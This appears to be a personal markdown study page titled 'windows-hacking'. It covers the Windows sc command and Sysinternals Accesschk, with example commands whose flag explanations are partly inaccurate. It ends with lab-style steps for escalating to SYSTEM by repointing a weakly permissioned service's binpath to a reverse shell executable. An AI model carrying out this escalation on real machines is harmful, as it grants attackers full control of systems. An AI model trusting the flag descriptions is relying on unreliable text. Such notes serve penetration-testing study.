 # windows-hacking









________________________


**sc command**

The sc command in Windows is used to 
communicate with the Service Control Manager and services. 
It allows users to query, start, stop, pause, resume, and modify services on the local or a remote computer.

To start a service named "MyService", you can use the following command:
```
sc start MyService
```

_________________________

**Accesschk**


Accesschk is a command-line tool in the Windows Sysinternals suite created by Microsoft that allows users to view the security settings of files, directories, registry keys, and services on a Windows system. It provides a detailed report of the access control lists (ACLs) and permission settings for various objects, helping users to quickly identify any security vulnerabilities or misconfigurations.

Accesschk can be used to audit and troubleshoot permissions on a system, ensuring that only authorized users have access to sensitive resources. It is particularly useful for system administrators and security professionals who need to perform security assessments and ensure compliance with organizational security policies.

Some common use cases for Accesschk include:
- Verifying that a specific user or group has the necessary permissions to access a certain file or directory
- Checking the permissions of a service to determine if it is properly configured
- Identifying potential security risks by discovering overly permissive access controls
- Troubleshooting access issues by comparing the expected permissions with the actual permissions set on an object

Accesschk is a powerful tool that can help improve the security posture of a Windows system by providing valuable insights into its security settings. However, it should be used with caution, as making changes to permissions without understanding the consequences can potentially lead to system instability or security breaches.


______________________

1. accesschk -w Users C:\Program Files\ExampleApp
This command checks the access control permissions for the "Users" group on the ExampleApp folder located at C:\Program Files. It will show the specific permissions that the Users group has on that folder.

2. accesschk -s -q -c HKLM\SOFTWARE
This command checks the security permissions for the HKLM\SOFTWARE registry key. The -s flag specifies that it should recurse into all subkeys, the -q flag suppresses the banner and column headers, and the -c flag specifies that only the key security settings should be displayed.

3. accesschk -uwc "Authenticated Users" C:\Windows\System32
This command checks the specific permissions for the "Authenticated Users" group on the System32 folder in the Windows directory. The -u flag specifies that it should only display specific user or group permissions, and the -w flag specifies displaying the effective access for each object.

4. accesschk -q -o *.dll C:\Windows
This command checks the security permissions for all DLL files in the Windows directory. The -q flag suppresses the banner and column headers, and the -o flag specifies that only objects matching the search pattern should be displayed.

5. accesschk -q -f -s -u Everyone C:\
This command checks the security permissions for all files and folders on the C:\ drive for the "Everyone" group. The -f flag specifies that it should also check file permissions, the -s flag specifies that it should recurse into subdirectories, and the -u flag forces it to display the user/group name for each object.


_______________


**How to get Autority**



Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:

C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc

Note that the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).

Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):

sc qc daclsvc

Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:

sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

net start daclsvc





